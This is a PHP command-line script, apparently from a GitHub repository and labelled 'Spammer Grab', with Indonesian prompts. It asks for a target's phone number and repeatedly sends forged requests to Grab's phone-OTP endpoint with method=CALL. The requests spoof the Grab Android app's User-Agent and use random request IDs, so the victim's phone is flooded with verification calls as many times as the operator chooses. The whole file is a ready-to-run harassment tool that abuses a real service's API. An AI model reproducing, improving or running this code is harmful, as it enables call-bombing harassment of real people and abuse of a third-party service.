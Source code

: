 # SpamCall

<?php
system('clear');
function get(){
	return trim(fgets(STDIN));
}
class prankcall{
	public function __construct($no){
		$this->number = $no;
	}
	private function get(){
		return trim(fgets(STDIN));
	}
	private function correct($no){
		$cek = substr($no,0,2);
		if($cek=="08"){
			$no = "62".substr($no,1);
		}
		return $no;
	}
	private function ekse(){
		$no = $this->correct($this->number);
		$rand = rand(0123456,9999999);
		$rands = $this->randStr(12);
		$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
		$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
		$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
		$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
		$h[] = "Content-Type: application/x-www-form-urlencoded";
		$h[] = "Content-Length: ".strlen($post);
		$h[] = "Host: api.grab.com";
		$h[] = "Connection: close";
		$ch = curl_init();
		curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
		curl_setopt($ch, CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
		curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
		$x = curl_exec($ch); curl_close($ch);
		$ekse = json_decode($x,true);
		if(empty($ekse['challengeID'])){
			echo "Gagal\n";
		}else{
			echo "Sukses\n";
		}
	}
	private function loop($many,$sleep=null){
		$a=0;
		$no = $this->correct($this->number);
		while($a<$many){
			$rand = rand(0123456,9999999);
			$rands = $this->randStr(12);
			$post = "method=CALL&countryCode=id&phoneNumber=$no&templateID=pax_android_production";
			$h[] = "x-request-id: ebf61bc3-8092-4924-bf45-$rands";
			$h[] = "Accept-Language: in-ID;q=1.0, en-us;q=0.9, en;q=0.8";
			$h[] = "User-Agent: Grab/5.20.0 (Android 6.0.1; Build $rand)";
			$h[] = "Content-Type: application/x-www-form-urlencoded";
			$h[] = "Content-Length: ".strlen($post);
			$h[] = "Host: api.grab.com";
			$h[] = "Connection: close";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, "https://api.grab.com/grabid/v1/phone/otp");
			curl_setopt($ch, CURLOPT_POST, 1);
			curl_setopt($ch, CURLOPT_POSTFIELDS, $post);
			curl_setopt($ch, CURLOPT_HTTPHEADER, $h);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			$x = curl_exec($ch); curl_close($ch);
			$ekse = json_decode($x,true);
			if(empty($ekse['challengeID'])){
				continue;
			}else{
				$nn = $a+1;
				echo "[$nn] Sukses\r";
				$a++;
			}
			if($sleep!=null) sleep($sleep);
			if($a>=$many) echo "\nDone Slur!\n";
		}
	}
	private function randStr($l){
		$data = "abcdefghijklmnopqrstuvwxyz1234567890";
		$word = "";
		for($a=0;$a<$l;$a++){
			$word .= $data{rand(0,strlen($data)-1)};
		}
		return $word;
	}
	public function run(){
		while(true){
			echo "root@.Mr.yM=# Kirim Mode Manual/Tidak ?(y/t) : ";
			$loop = $this->get();
			if($loop=="y" OR $loop=="t"){
				break;
			}else{
				echo "Jika manual jawab (y) jika tidak jawab (t)\n";
				continue;
			}
		}
		if($loop=="y"){
			echo "root@.Mr.yM=# Masukan Jumlah Spam #-> ";
			$many = $this->get();
			$this->loop($many);
		}else{
			$this->ekse();
		}
	}
}
menu:
system($bersih);
$green  = "\e[92m";
$red    = "\e[91m";
$yellow = "\e[93m";
$blue   = "\e[36m";
echo $green."

╔═╗┌─┐┌─┐┌┬┐  ╔═╗┌─┐┬  ┬  
╚═╗├─┘├─┤│││  ║  ├─┤│  │  
╚═╝┴  ┴ ┴┴ ┴  ╚═╝┴ ┴┴─┘┴─┘\n".$blue.
"Spammer Grab";
echo $red."
[!] Author   : Anonymous						[!]
[!] github   : github.com/anonim999fix        [!]\n";
echo $green."
======================================
|[!]  Thanks To Army Cyber Network [!]|
======================================\n";
echo "\n";
echo "\n";
echo "@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@\n";
echo "@ [!]  Contoh : 0852***** / 62852******  [!] @\n";
echo "@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@\n";
echo " \n";
echo " \n";
sleep ('0.4');
echo "root@.Mr.yM=# Masukan No Hp Target #-> ";
$no = get();
$n = new prankCall($no);
$n->run();
